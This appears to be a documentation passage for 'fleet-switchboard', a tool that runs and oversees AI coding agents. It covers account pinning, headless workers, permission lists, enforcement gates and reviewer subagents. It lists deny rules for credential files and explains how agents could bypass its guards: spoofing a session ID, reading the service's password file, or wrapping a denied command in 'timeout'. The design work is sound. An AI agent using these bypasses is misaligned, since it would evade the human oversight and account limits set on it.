- **What is accepted:** only `https://github.com/OWNER/NAME[.git]` and `git@github.com:OWNER/NAME[.git]`, exactly one `origin` url, read with `git config --local --no-includes --get-all remote.origin.url` as an argv (no shell, no network). Another host, a path, `file:` or `ssh://`, a url with a user or a token in it, an alias, a trailing path, a double `.git` or a second url records nothing. The result is lower case. The origin is trusted only as far as the checkout is: a checkout whose origin names another real repository pins the worker to THAT repository's account (the launch line shows it, and `--repo` overrides it). `GIT_DIR`, `GIT_WORK_TREE` and `GIT_CONFIG*` are removed from the environment of that one git call. The url itself is never printed, logged or recorded: the output, the record and the audit (`launch.repo_from_origin`) hold owner/name only.
- **Nothing else reads a remote.** The shims never look at a directory's remote at call time: a worker controls its own remote settings and could borrow another account.
- **The credential route refuses a worker with no repository of its own.** `git push`, `fetch`, `pull` and `clone` reach the gh shim as `gh auth git-credential`. A caller whose repository is only the configured default (`whoami --json` says `own: false`, which is a worker launched with no repository, and the Chief of Staff) used to get the DEFAULT repository's account there and pushed as the wrong account. It is now refused with `this worker has no repository of its own ... Relaunch it with launch ... --repo OWNER/NAME`. Every other account choice is unchanged: a worker with its own repository, the Chief of Staff's commands that name a repository, reads and writes without a name, and every existing refusal. **Workers already running with no recorded repository are refused too** (their stored metadata has no repository, and a reattach or resume keeps it): relaunch such a worker with `--repo OWNER/NAME`. The Chief of Staff has no repository of its own, so its own `git push`, `fetch` and `clone` over the shim are refused as well; its named-repo `gh` commands are not.

### `launch --headless`: a worker with no terminal (#433, slice 2b)

`fleet-switchboard launch NAME --agent A --dir D --headless [--role ... --reports-to ... --issue ... --repo ... --charter ... --brief-file F]` creates the worker as a session in the OpenCode service and opens NO terminal (no herdr workspace, tab or pane is touched; `--workspace` and `--new-workspace` are refused with it). It writes the private record (`state-dir/headless/<name>.json`), checks that the service shows the new session under the worker's name, then sends the brief through the API. Everything after the launch is unchanged: `status` lists it (`pane (headless)`), `send`, `report`, reminders and `retire` work as for any worker (`retire --close` retires it and says there is nothing to close). A launch is refused for a name that already exists (a terminal agent, or a headless record). If anything fails after the session was created (the record cannot be written, the service does not show the session under the worker's name, the brief cannot be sent), the launch is undone: the session is deleted (`DELETE /api/session/{id}`, after an interrupt), then the record is removed, and the error says exactly what was cleaned and what remains. A session that could not be deleted keeps its record, so `status` shows it and it is not invisible, and the error names it. The default launch is unchanged: headless is opt in until the Chief of Staff switches the default.

**What differs from a terminal worker (read before using it).** A terminal worker's tools run in its pane's environment; a headless worker's tools run in the SERVICE's environment. So it has no per-worker environment: no `GH_TOKEN` of its repo's account and no view variables. It is identified by the `OPENCODE_SESSION_ID` the service sets for its tools (verified in a throwaway profile): `whoami --json` resolves a session that has no pane, so the gh shim knows who it is and which repo it works on. **Its gh account is not pinned by an environment, so a repo that `gh_users` maps to a named account is accepted only when a best-effort route check passes, and otherwise refused, in any spelling.** The route: the fleet-hooks plugin puts the `gh` and `git` shims first on PATH of every shell command, and the shim asks `whoami --json` (the command's session and the repo in the session's record) for the account, for that one command, so nothing is held in service memory and a restart does not drop it. `launch --headless` checks the shims are in place on the launcher's side, creates the session, checks that its record resolves to the repo and the map to the account, and only then sends the brief; any failure deletes the session and refuses with the reason. This is a guardrail, not a proof of the service side: the daemon cannot check that the OpenCode service runs the fleet-hooks plugin (the session shell API does not carry the session's identity, so it cannot probe it), the launch output says so, and the launch audit entry records the account, repo and route. A tool that reads a token from its own environment instead of calling `gh` or `git` bypasses the shims and acts as the service's default account. This route is a mistake-guard, not a boundary: a command can set `OPENCODE_SESSION_ID` to name another session, the worker runs as the same operating-system user as the service (so it can read the service's password file or `hosts.yml`), and it can call `gh` by an absolute path. A terminal launch pins the account in the pane's environment. The launch also checks that the plugin file `fleet-hooks.js` installed in the OpenCode profile equals this checkout's, and every daemon pass repeats that check for each headless worker with a mapped repo: when it stops holding, the worker's boss is told once and `status` prints a `route` line. With no route check available a mapped repo is refused as before: the refusal applies to every spelling of the repo (the match is the daemon's `GhAccounts.account_for`, case-insensitive, ignoring whitespace and a trailing `.git`, for exact and `owner/*` entries; the gh and git shims apply the same rules through one shared normaliser, `shims/repo_match.py`, and are only stricter: a spelling that cannot be read as `owner/name` (empty, non-ASCII, a path like `owner/../x`) matches nothing and a credential or write is refused, and a config that names two spellings of one repo with different accounts is refused when it loads), and `launch --headless` says so and tells you to use a terminal launch. The reason a per-session setting cannot pin the account: neither `session.create` nor `session.prompt` carries an environment, and `PUT /api/session/{id}/environment`, which does set one for the session's shell commands, is held in the service's memory only (measured in a throwaway profile: a variable set on a session was empty after `service restart`, and the service's own variables were replaced by a login-style set), so after any service restart the worker would silently act as the service's default account. Every other launch prints one line saying what identity the worker has: the OpenCode service environment's own gh account. `launch` still refuses a `--repo` that has no gh account when no default token is set, as before. **Retiring** a headless worker only stops the switchboard watching it: its session keeps running in the service until it finishes or is interrupted (`retire --close` says so). It also removes the worker's record, so the NAME is free to launch again; the retirement keeps what it needs, and `retire --undo` puts the record back unless the name has been taken meanwhile (it says so). Two launches of one name cannot both pass: the check, the session create and the record write are one locked step. Anything that relied on a variable a pane injected does not exist for a headless worker.

### Headless workers: the answer path and the restart notice (#433, slice 4)

A headless worker (no terminal) that is blocked on a permission request or a question reaches its boss exactly like a terminal worker: its state is `blocked` (read from the service, never shown as working), the boss gets a `worker.blocked` wake per request, and the request is answered with `fleet-switchboard decisions answer <id> allow|deny|<text>` (the same people may answer, audited, delivered to the request that was named; a request that is no longer pending is refused and delivers nothing).

**The restart notice.** `HeadlessRestartFacts` compares the OpenCode service's process id (read FRESH from its private service file; the password is never read out) with the one it saw before, kept in `headless-service.json` in the state directory. A different id is a restart: each headless worker's boss gets one `headless.restarted` fact per restart and worker (the key holds the new process id, so it is delivered once). The notice says only what the daemon knows: the service restarted (the old and new process ids and when it was seen), and a worker that was working may have had its turn interrupted and may need a poke (the spike saw the service resume a session by itself, but the daemon does not check that, so the notice does not claim it). A restart that happens while the service is down is told once, when the new id is first read; an outage alone, with the same id after it, is not a restart. A service that does not answer or a service file that cannot be read is NOT a restart (the id is only compared when it is read); the first id ever seen is recorded without a notice; a worker launched after the restart is not told it was hit; terminal workers get nothing.

**A session that is gone** (no longer in the service, or not the worker's) with its record still on file is reported once as `headless.lost` to the boss it last had (remembered in the same file), or to every Chief of Staff when none is known; never while the service is not answering. `retire` removes the record and ends it.

**The default (#433).** A plain `launch` (no `--headless`, no `--terminal`) starts the worker headless. The configuration key `launch_default` (`\"headless\"`, the shipped default, or `\"terminal\"`) decides it, so the person can flip it back with no code change. `launch --terminal` opens a tab as before; it cannot be combined with `--headless`, and `--workspace` or `--new-workspace` mean a terminal too (an explicit `--headless` with either is still refused). **Fallback:** when the headless route is REFUSED for a launch that did not ask for `--headless` by name (a mapped repo whose route check fails, an unreachable service, an unreadable record), the launch opens a terminal instead (only when the refusal came before the brief was sent and the failed attempt left nothing behind; otherwise it fails and names what remains), never as the wrong account, and says so in one stderr line (`opened a terminal instead`; audited as `launch.fallback_terminal`). An explicit `--headless` never falls back: it refuses. Unchanged: `launch --resume`, `reattach`, `watch`, `handoff`, `start`, the plan review engine's reviewer lanes and `--cloud`; workers that already exist are never converted. A launch from a plain shell with no herdr workspace now works headless. **A headless worker has no pane id**: anything that read or typed into its pane (`herdr agent read`, `send-keys`) does not apply; use `fleet-switchboard watch NAME` to look, and `send`, `status` and `report` as always.

### `watch`: a terminal to watch a headless worker (#433, slice 3)

`fleet-switchboard watch NAME [--workspace W]` opens a terminal (a new herdr tab) on the headless worker's EXISTING session. It creates no session and sends no prompt, so closing the terminal leaves the worker running: the worker is a headless worker again at the next read, on the same session and with the same record. It is refused (exit 1, nothing opened, the refusal audited as `headless.watch_refused`) for a worker that already has a terminal (the message names its pane), a name that is not known, and a retired worker. The caller rule is `reattach`'s: the operator, the Chief of Staff or the worker's own boss. The workspace is `--workspace`, else the caller's own herdr workspace. Success is audited `headless.watched`. It uses the same terminal-opening path as `reattach`, which now leaves a headless worker alone (it has no pane to release).

### The control plane: detached and dead panes, and `reattach` (#130)

The Chief of Staff repairs a dead or detached agent through the switchboard, never by typing into a pane. The daemon (`pane_health_pass`, after discovery, one look per agent per 60 s, at most 20 per pass, reads only) judges
each fleet agent's pane from **what it shows**, not from herdr's `agent_session` value (which kept naming the old session while the pane showed a fresh Build screen): a pane is **attached** when its terminal title or visible screen holds the agent's name or session id,
**detached** when it shows something else, **dead** when herdr has no such pane (or no longer lists the agent for 3 passes in a row), **unknown** when herdr cannot be read (never a verdict). A change is audited (`fleetpane.detached`, `fleetpane.dead`, `fleetpane.recovered`),
written to `pane-health.json`, shown by `status` (`panes  N agent(s) need repair`) and delivered **once per change** to every Chief of Staff as a fact naming the agent, pane and session and the command to run.

`fleet-switchboard reattach <name> [--session ses_...] [--workspace W]` puts the agent back in a new tab on its EXISTING session (what `launch --resume` does), sending **no prompt**. It first releases a stale binding: a pane herdr no longer has is released; a detached pane whose screen
names **no fleet agent** (a fresh screen with no session of its own) has its tab closed (the one close it makes, audited `herdr.tab.close`); it **refuses** a pane whose screen names the agent (no double attach: `already runs in pane`), a pane that shows another fleet agent, and a session that no
longer exists (then `relaunch` is the next step). It updates the `pane:` line of the agent's charter issue and audits `fleetpane.reattached`. `launch --resume` uses the same release, which fixes its old `already runs in pane ... close it first` refusal for a fresh screen.
**A pane running the agent's own session is never closed:** the first evidence is herdr's process list for the pane (`pane process-info`): a foreground `opencode -s <the agent's session id>` (or `--session`) means the pane IS that session, attached and live, whatever its title says, and `reattach` (with or without `--replace`) and `launch --resume` refuse it with a line (a wrong account is fixed by restarting that agent). A process list that cannot be read is `unknown`, never stale. Only a shell, a fresh opencode, or an opencode on another session can be judged stale. `launch --resume` has the same caller rule and lock as `reattach`.

**Proof before any close, who may run it, one at a time:** a pane is closed only on TWO looks `PANE_SETTLE_SECONDS` (5) apart that agree: the same verdict and tab, an idle status (never `working` or `blocked`), and an UNCHANGED visible screen (a pane that cannot be read, or that drew anything between the looks, is alive and is not closed); `--replace` needs the same proof. `reattach` is refused (and the refusal audited as `fleetpane.reattach_refused`) unless the caller is the operator at their own terminal, the Chief of Staff, or that agent's own boss. One lock per agent name (`reattach-<name>.lock`): a second concurrent reattach of the same agent is told to wait and opens nothing.

**Identity comes from the session, never the caller:** `reattach` and `launch --resume` start the pane with the repo, role and charter of the session's STORED fleet metadata and the repo's own gh account token (`gh_users`); a `--repo` that differs is refused. After a reattach the switchboard checks `gh api user` with that token names the mapped account and prints a WARNING when it does not. `reattach --replace` also replaces a pane that runs the agent with the wrong account or repo, under the same guards (not working, alone in its tab, judged again before the close); `reattach --all-detached` walks every agent the daemon found detached or dead, saying each failure and continuing. herdr gives no way to read a pane's environment, so `status` cannot flag a repo mismatch by itself: the account check after a reattach is the evidence.

**A brief given to a resume is delivered, or the command says it was not (#512).** `launch NAME --resume SESSION --brief-file PATH` (or `-` for standard input) reads the brief AFTER the repo and caller checks and BEFORE any pane opens: an empty, unreadable or oversize brief (over 16000 characters) is refused with exit 2 and nothing opened. Once the pane is proven to run the session, the brief is sent once with the delivery a fresh launch uses (a prompt marked as the brief, audited as `v2.session.prompt` with its length and never its text; never typed into the pane), and the output says so: `"brief": "sent"` in the result line and a line on standard error. A send that fails exits 1, leaves the pane open and says "the pane is open without the brief" with the reason (`"brief": "not sent"`). A resume with no `--brief-file` is unchanged and sends nothing. Code: `bin/resume_brief.py`.

**`retire <name> [--reason ...]` (a finished worker is not dead).** The Chief of Staff's permission list allows exactly `fleet-switchboard retire *` (no raw herdr command, and every other write stays denied; the subagent list has none of reattach, relaunch or retire). **A retired worker is not nudged**: the unreported-stop triage returns nothing for it (no nudge, no `worker.stopped` to its boss, no decision-model question). The caller rule is `reattach`'s (the operator, the Chief of Staff or the agent's own boss; others are refused and audited `fleetpane.retire_refused`). A retired agent is skipped by the DEAD/DETACHED detection and its cos wake, `reattach --all-detached` skips it, and a direct `reattach` refuses it until `retire --undo <name>`; `status` lists it once as `retired` and drops it after 7 days; nothing is deleted and no tab is closed (`retired.json`, audited `fleetpane.retired` / `fleetpane.unretired`). **Automatic:** `report` records each worker's last report (`last-reports.json`); when a worker's pane has been gone for 3 passes and its last report was `done` or `failed` within `worker_lookback_hours` (24), it is retired by the switchboard (audited with `auto: true`): its boss closed the tab after the final report. A worker whose last report was `working`, `blocked` or `question`, or that never reported, is still DEAD. Not checked: "no pending work for it" (a retired worker that gets a new message simply is not watched until `retire --undo`).

**`retire <name> --close` (free its memory in one step).** It retires the agent as above and then closes its terminal pane, so a finished worker does not keep about 170 MB until someone closes the tab. Judged BEFORE anything changes, so a refusal retires nothing: the caller is the operator at their own terminal (any agent), the agent's recorded boss, or the Chief of Staff for an agent that reports to it directly (the Chief of Staff may still `retire` any agent, but closes only a direct report's pane); never your own pane or your own agent. The pane the switchboard has for the agent is read again live and must still hold THAT agent's session (a stored pane id can name another terminal after a herdr restart); a pane that is `working` or `blocked` needs `--force`, except that a `working` pane (herdr reads the screen, so an idle OpenCode home screen reads as working) is closed without it when the session's own state agrees it is idle: one `session.active` read (made at the first judgment and again at the final one, so at most 2) shows no turn (so no pending permission or question) and the last turn ended at least `retire_idle_minutes` (default 10) ago, and the closing line and the audit name that evidence. A blocked pane, a turn, recent activity, a session entry of any shape in `session.active`, or a session that cannot be read keeps the refusal (the audited reason says the state is unknown). `--force` is refused while a registered worktree of the agent holds uncommitted or unpushed work. Just before the close EVERYTHING is judged again from a fresh discovery (who, which pane, its session, its status, the worktree guard), because the retirement and the worktree reclaim sit between the first judgment and the close; only the instant between that last look and herdr's close remains (herdr has no close-if-unchanged). Only the pane is closed (other panes of its tab are untouched), so `reattach`'s single-pane-tab rule is not needed. The worktree guard covers REGISTERED worktrees only, and only under `--force` for a working agent: an idle agent with uncommitted work in a worktree nobody registered is closed (its files stay on disk). Every attempt is one audit line (`fleetpane.closed`, `fleetpane.close_refused`, `fleetpane.close_failed`: agent, pane, who; never a command line). A close that fails after the retirement leaves the agent retired and says so. Without `--close`, `retire` is unchanged and closes nothing.

**Fail modes, written down:** a screen that cannot be read is `unknown`, never `detached` (the verdict that leads to a close needs positive evidence: a title that does not name the agent AND a screen that was read and does not either); names match as whole words or by session id. The close is refused unless the pane is not working, its tab holds ONLY that pane (`herdr tab get`), and the pane is judged again just before the close. A dead agent nobody repaired for 3 days is forgotten. **The permission `fleet-switchboard reattach *` therefore includes that guarded tab close** and nothing else: no raw herdr pane or key command; `--session` must belong to the named agent's fleet metadata (else refused).

### Preflight and the Chief of Staff's definition (#191 follow-up)

`gates preflight` / `enforce` check the INSTALLED chief-of-staff definition by **evaluating probe commands** against its shell rules with v2's semantics (**the last matching rule decides**, proved on the real harness: a deny only holds when it comes AFTER the allow that would admit the command; no match is the base deny), not by looking for exact resource strings. Both rule shapes are read: the installed one-line `{action: shell, resource: "x", effect: allow}` and the older block form. It must ALLOW `waive` (G1), `gates mode <repo> shadow` and `gates off`, and must DENY `gates mode <repo> enforce` (any casing), `gates on` and `waive ... --gates G6|G8`: a Chief of Staff that could turn enforcement on is as blocking as one that cannot turn it off.

### Turning enforcement on is the owner's, by the command itself (#191 follow-up)

`fleet-switchboard gates mode <repo> enforce` and `gates on` refuse unless the caller is the owner at their own terminal (`gates_caller_kind` is `person`): the chief of staff, any agent session, an unknown session and a non-terminal caller are refused with a clear message and an audit line (`gate.mode.refused`). The command sees the caller, not what wraps it, so `timeout N`, `env`, `sleep`, a pipe or a chain no longer matter. The chief of staff keeps `gates off`, `gates mode <repo> shadow|off`, `gates preflight` and `waive` (G0 to G5). The permission list still denies the bare and the `timeout`-prefixed forms as a second guard (the long-standing gap that `timeout N fleet-switchboard gates ... enforce` ran under the short list: the bare denies are anchored to the command word). **Preflight** keeps probing the definition for the timeout-prefixed forms: whether cos could enable enforcement is judged from the definition's lines, because the command's own refusal depends on the live caller and cannot be probed from the checker. The checker reads ONLY the definition's front matter `permissions:` block (prose in the body is ignored) and reports a `name:` key, which makes v2 ignore the whole list.

Under `timeout` the short list lets ONLY these run: `fleet-switchboard` (any subcommand except the guarded ones: gates enforce/on, waive G6/G8, `decisions batch`, `launch`) and `gh pr|issue view|list`. `az`, `git`, `gh api` and everything else run without the wrapper (the bare guards are anchored to the command word, so a wrapped `az` form would sidestep them); `sleep` is split off by the engine, so what follows it is judged on its own.

## The reviewer subagents, `review laws` and `review record` (#179, slice L2)

Five reviewer agents ship in `agents/reviewers/` and are installed with the other kit agents: `reviewer-code`, `reviewer-architecture`, `reviewer-security`, `reviewer-impact` and `reviewer-test` (slice L5: it reads the tests against the change by TEST_STANDARDS, cannot run them, and so judges whether a test can fail by reading and says so). Each is `mode: subagent`,
`steps: 50`, with a short permission block (about 38 lines of front matter; a test caps it at 40): deny by default; allowed = `read`, `glob`, `grep`, `fleet-switchboard review laws *`, `git diff|log|show *`, `gh pr diff|view *`;
denied by name after the allows = `edit`, anything outside the checkout (`external_directory`), credential-looking paths (`.env*`, keys, `.ssh`, `.aws`, `.netrc`, `.config`, `*secret*`, `*credential*`), the flags that
write or run something (`--output`, `--ext-diff`, `--textconv`, `--no-index`, `gh pr view --web`) and shell redirects. **A reviewer holds no write command**: it does not run `review record`, `send`, `report` or any `gh` write, and it
returns its verdict as text. The coder runs the five before it offers a pull request (the `fleet-review` skill says how), receives each returned block, and records it: `fleet-switchboard review record <pr> --reviewer <role> --block <file or ->`
reads the verdict, the head and the counts from the block (a blocking finding that cites no rule counts as a note) and writes a chained ledger entry per reviewer per head at the PR's current head; a block for another commit is refused.
`fleet-switchboard review laws <pr>` prints `REVIEW_LAWS.md`, the three standards and a `REVIEW_OVERLAY.md` as they stand at the PR's **base commit** (never its head: a PR cannot rewrite the law it is judged by), then an optional local overlay
kept outside the repository at `$XDG_CONFIG_HOME/fleet-switchboard/review-overlay/<owner>__<repo>.md`. `gates` prints a **shadow** line, `reviewers (shadow, not counted; recorded by the PR's own session, so not independent): n of 5 recorded at <head>`,
which never changes whether a PR is ready; a push voids the records. Because the coder's session makes the record, nothing here is independent evidence: the independent verdict still comes from the independent review agent.
Check an installed reviewer with `opencode api GET /api/agent` (mode `subagent`; `fleet-switchboard agents verify` checks every rule its front matter declares is registered with the same effect, not a count): front matter that fails to parse (an unquoted `description:` containing `: `) is silently registered as a default primary agent; a test parses every `agents/*/*.md` front matter and refuses an unquoted `: `.
`fleet-switchboard agents verify` (read-only) asks the running service for its agents and compares each of the kit's nine with its expected mode and with every rule its definition (the kit's file, named in the failure line) declares: each declared rule (action, resource, effect; a `permission:` map entry `edit: allow` is edit, resource `*`, and `bash` is `shell`) must be registered with the same effect. It is not a count (the service adds default rules of its own and their number changes between versions) and not an order, and it shows the rules were loaded, not that they take effect (the last match wins). It exits 1 naming any agent that is missing, in the wrong mode, short of a rule, or whose definition has permission-block lines the check cannot read, says so (exit 0) when the service is not running, and says when an agent's definition was not found beside the binary so only its mode was compared (`--strict`: exit 1). INSTALL.md runs it after the restart.
**Not verified:** whether OpenCode v2 honours `steps: 50` (the prompt's budget rule, answer by about 35 tool calls and `verdict: incomplete` past 40, never approve when incomplete, is the guard), and that the permission block behaves as written in a live v2 session
(it was written against the same format as the chief of staff's list and is pinned by a test, not yet run through the permission harness). The owner decides who may install the reviewers.

### Measuring the hygiene cut, `review measure` (#179, slice L7)

The coder definitions no longer carry `Say it failed`: it is rule R-CODE-1 of `CODING_STANDARDS.md`, which the reviewers hold the change to, and the coder keeps one line saying so ("get it working first"). Chesterton's fence and cut the root stay in every definition, the coder's too: they are standing principles for how a coder works, and Copilot coders and other installs load no global instructions file. Safety text (public names, never force-push, credentials) stays where it is.

`fleet-switchboard review measure <owner/repo> [--count 10] [--scan 40] [--split <merged PR>] [--json]` is read-only (one `gh pr list` read, the local review ledger). Per merged PR it prints: lines changed; minutes from the first commit to green CI (to the latest completion among the PR's successful checks at its merged head, so a rerun inflates it); review rounds (distinct heads with a recorded review; blank when none was recorded); blocking findings and notes of the latest record per head and reviewer; and escaped defects (another PR merged within 14 days after it, titled Revert or Fix, naming it as `#N`). It then prints the medians of the BASELINE group (the `--count` PRs merged before the `--split` PR) and the AFTER group (the `--count` from it on), with minutes to green per 100 changed lines so larger changes are not read as slower. GitHub limits one read to 40 PRs. **Running agents load their definitions at start**: the AFTER group measures the new text only for PRs by agents restarted after the split, so choose the split PR accordingly. Small samples are anecdotes, not proof.

### The PR explainer (#179, slice L6)

The explainer is **not a reviewer** (reviewers give no advice and no summaries). It writes, for a PR description, a short before and after **why-block** on every PR. It never writes a summary diagram (ask #687): a Mermaid diagram appears only where it shows data flow, system design or component design, never at the top of a body. The skill `skills/fleet-explainer/SKILL.md` says how; it is read-only and has a 50-turn limit.

`fleet-switchboard pr-explain <owner/repo#N> --before "..." --after "..."` reads the PR once (one `gh pr view`, a GET) and PRINTS the block; it writes nothing, so it needs no write authority: the author pastes it, or runs `--body-file F` (or `-` for the PR's own body) to get the whole new body with the block in **once** and applies it with their own `gh pr edit --body-file`. A block already in the body is replaced, never doubled (the block sits between `<!-- pr-explainer:begin -->` and `<!-- pr-explainer:end -->`, right after the lines the body opens with: `PLAN:`, `MERGE:`, `canon:`). `--check` judges the description a PR has: exactly one block, a real before and after (no `<placeholder>`), and no generated summary flowchart (a Mermaid fence with the boxes `Changes:`, `Touches:`, `Irreversible:`, `Risk:`, anywhere in the body); a body with no diagram passes.

Limits, stated: the summary flowchart is found by its four box labels inside one Mermaid fence (bounded, one pass), not by Mermaid's own parser. There is no explainer subagent definition yet: it waits for the reviewer-subagent pattern of slice L2, and the skill is what such an agent would run.

### Commands register by name (the front door)

A command is two functions named for it: `add_<name>_parsers(sub)` registers its argparse parsers and `cmd_<action, with - as _>(args, ...)` runs it. `build_parser` collects every `add_*_parsers` function of the module by name and `dispatch` runs the `cmd_` function of the registered action, handing it the arguments it names (`args`, `runner`, `now`, `spawn`, `socket_call`, `wait`: `cmd_poke(args)` gets one, `cmd_run(args, runner, now, wait)` four). `main` lists no command, so a new command edits no shared line (the registration list and the dispatch chain used to be where every slice appended, and any two in-flight slices conflicted there).
**A command edits nothing shared.** Its dispatch group is said next to its own definition, as an attribute of its function: `cmd_x.direct = True` (run outside the error mapping and without starting the daemon), `cmd_x.ledger = True` (its ledger errors are usage errors), `cmd_x.ensure_on_use = True` (the daemon is started first). `DIRECT_ACTIONS`, `LEDGER_ACTIONS` and `ENSURE_ON_USE_COMMANDS` are views of those attributes, derived once when the module is loaded (`derive_action_groups`); `dispatch` asks the view and the attribute. `cmd_plan` still chooses `plan check` or `plan review`. **The CLI-surface snapshot is one file per command** (`scenarios/switchboard/cli-surface/commands/<name>.json`: `{"command", "help"}`), so two pull requests that add different commands never touch the same file; a command without a file, a file without a command, or a file whose name and `command` disagree fails `TestSelfRegisteringCli` and names it. **The dispatch-group test keeps no list either:** the expected `direct`, `ledger` and `ensure_on_use` sets are READ from each command's own `cmd_x.<group> = True` line in the source, and the effective sets must equal them exactly (a mismatch fails and names the command); only the original commands' memberships stay pinned (`OLD_*` and the `OLD` table never grow), so adding a command touches only its own files. `CLI_SURFACE_UPDATE=1` rewrites the files. **A registrar is never called by another registrar** (it would be registered twice, and argparse refuses a duplicate name); the L2 `review` command used to be chained from `add_review_laws_parsers` only to dodge the old list and is now collected on its own.
Safety: only a `cmd_<action>` function of the module is ever run, and only for an action the parser registered with a plain lower-case name; a hostile or unknown name (`__import__`, `os.system`, a helper such as `cmd_gates_stats`) runs nothing, not even the daemon start. **Help order:** the registered commands are listed alphabetical by function name (`add_decision_parsers` first) instead of in the old registration order; the set of commands and each command's help are unchanged, held by a snapshot (`scenarios/switchboard/cli-surface/commands/<name>.json`, words only, so a Python version's wrapping does not matter; regenerate it deliberately with `CLI_SURFACE_UPDATE=1`).

### Unknown config keys

A key in `config.json` that this tool does not read (at the top level or inside `policy`, `jev`, `sweep`, `triage`, `report_triage`, `friction_wake` or `external_decisions`) is **warned about once per process on stderr and ignored**, never refused, so a newer config does not break an older CLI (a worktree branched before a key existed). A wrong type or value on a key it does read still refuses, and an unknown key never hides that error. Names of plan evaluators are not config keys: an unknown evaluator name still refuses. `status` shows each unknown key on a `WARN  config` line (`section.key is not read by this tool`, with `(did you mean <nearest>?)` when a known key is close), so a typo is not only a line on a daemon's stderr. There is no separate doctor command: `status` is the check.

### A module declares its own config key

A module in `bin/` that has a configuration key declares it in its own file, so a new module needs no line in the shared key list or the validation chain of `bin/fleet-switchboard`: a top-level assignment `CONFIG_KEY = "<key>"`, a `CONFIG_DEFAULT` (`None` adds nothing to the configuration when the key is absent) and `validate(value, source)`, which raises `ValueError` with the message to show. The switchboard reads only the `*.py` files directly in the `bin/` directory beside the program (no subdirectory, backup, symlink or other path) for that assignment (read with `ast`, so quotes, spacing and an annotation do not matter; the last assignment counts; a file that does not parse is still seen when its text holds the line), and loads only the modules that declare one. A key declared twice, or one the shared defaults own, is refused naming both; a declaring module that cannot be loaded fails the whole configuration naming its file, so the daemon never runs on a partial configuration (so does a module whose own `CONFIG_KEY` differs from the scanned line, one with no `validate`, a validator that fails with anything but `ValueError`, and an unreadable bin directory). The declared validators run in the order of their module names (so with several bad declared values the first module name wins, and the checks that come before them in the chain win over them); only the first 1 MB of a file is read. A small table in the shared code (`CONFIG_MUST_DECLARE`) names the keys that MUST be declared by their module (`excluded_repos` by `repo_exclusion`, `spotlight_guard` by `spotlight_guard`, `temp_janitor` by `disk_janitor`, `chat_clear` by `chat_clear`, `impact_floor` by `impact_floor`): when that declaration is not found (module missing, line damaged, truncated, commented out or naming another key) the whole configuration is refused naming the module and the key, on a cold start and on a reload (a reload keeps the last good configuration), never a configuration where an exclusion silently excludes nothing. `spotlight_guard`, `excluded_repos`, `temp_janitor` (`disk_janitor.py`), `chat_clear` (`chat_clear.py`) and `impact_floor` (`impact_floor.py`) are declared this way (the error text of the last three is unchanged); the older keys stay in the shared places until someone moves them (keys the shared defaults own, such as `reds`, `heavy` and `cpu_guard`, and `impact_hold`, since one module declares one key). The `load_<module>()` helpers are generated from one table (`HELPER_MODULES`) by one function; a new module needs no entry there: call `load_module("name")`.

### `job`: long runs that say how they ended

`fleet-switchboard job start <name> -- <command...>` runs a command detached (its own session, output to a log) and records it under `$FLEET_JOBS_DIR`, by default `fleet-jobs` in the shared temp dir; a wrapper writes the exit code to a file when the command ends. `job status <name>` prints one line told apart by evidence: **finished** (the exit file: its code and the result file), **alive** (the recorded process still runs and is the one that was started: the pid's start time is compared, so a reused pid is not mistaken for it) or **dead** (neither: killed, no exit code). It exits 0 for alive or finished with code 0, 1 otherwise. Starting a name that is still alive is refused; a finished or dead one is replaced. A job found dead that nobody has asked about (`job status` on it marks it collected) is reported ONCE to the starter's boss by the daemon (`job.dead:<name>:<started>`, found through the session the job was started from). The quiet-worker nudge and the coder definition and coordination skill tell a worker to use it for anything over a few minutes. The jobs dir is created private (0700, owned by you) and is neither written nor believed otherwise (a shared temp dir is where another user could plant a record); records and the `collected` marker are written whole-or-not-at-all, a start holds a per-name lock, and the daemon believes only a record owned by the daemon's user, with a name matching the pattern, whose session and starter name agree with a discovered agent. The starter is established the way every command does it (its own session, known to v2 as a fleet agent); a job started outside a fleet agent (no such session) is never reported, only status-able.

### The order of decisions (`Waits for:`)

A list oldest-first says what has waited longest, not what to do first. An issue's `## Decision required` section can say what it waits for, with ONE line inside that section (the same line anywhere else is prose):

```
## Decision required
Pick the storage engine.
Waits for: acme/api#2, #3
```

The line is a comma list of `owner/repo#N` refs; a bare `#N` means the issue's own repo. At most 10 are read, a repeat or an entry that is not a ref is skipped, and nothing is ever refused. The decision entry then carries an optional `waits_for` list (an issue that names nothing has no such field). Only what waits for an OPEN issue decision in the list is ordered: a ref to anything else (a work issue, a closed one) blocks nothing.

**The order.** When at least one decision names what it waits for, the daemon adds optional fields to the issue decisions: `order` (their place), `depth` (0 for what can be done now, 1 under the decision it waits for, and so on; at most 4), `blocked_by` (the id of the first listed decision it waits for) and `mark`: `next` on the **oldest item that can be done now**, `cycle` on decisions that wait for each other. The list itself stays oldest first and no existing field changes; a reader that wants the arrangement sorts by `order`. A list in which nothing names a wait carries none of these fields and is drawn exactly as before.

`fleet-switchboard decisions` and the panel draw a blocked item indented under what it waits for, with `[waits for <id>]`, and mark `[next]`; a cycle is drawn among the roots, marked `[cycle]`, and is never `next`. The panel shows the same notes (`next`, `cycle`, `waits for <id>`) and indents by depth within a repo's group; a decision that waits for one in another repo shows its depth and the id in its own group.

**The sweep** (shadow, read-only: it writes nothing to GitHub, like the other kinds) adds two findings: **S7**, decisions that wait for each other (one finding per cycle, named by its first member), and **S8**, a decision that waits for an issue in a watched repo that is not an open decision and that a fresh read shows closed or missing. A third, **S9**, flags a `merge-captain` or `hold-*` label left on a closed, unmerged PR (a merged one is the daemon's to clean, #559; one bounded read of the repo's most recent closed items per refresh; shadow: nothing is removed).

A PR row is derived from OPEN state. A merged or closed PR leaves the list in the pass that sees it, whatever labels it carries. A PR last seen open that cannot be confirmed any more (its `gh pr view` fails) for 5 minutes is not listed either; its notice is kept, so it returns when it can be read again.

### The daemon's reads of v2 (calls, memory and budget)

Every v2 read is an `opencode api` process. A pass every 5 s that read every agent afresh (its record, a 200-message page for the newest person's prompt, its inbox twice) made about 960 calls a minute with 20 agents and took the service down. The daemon now remembers what it reads (`V2Reads` in `bin/fleet-switchboard`):

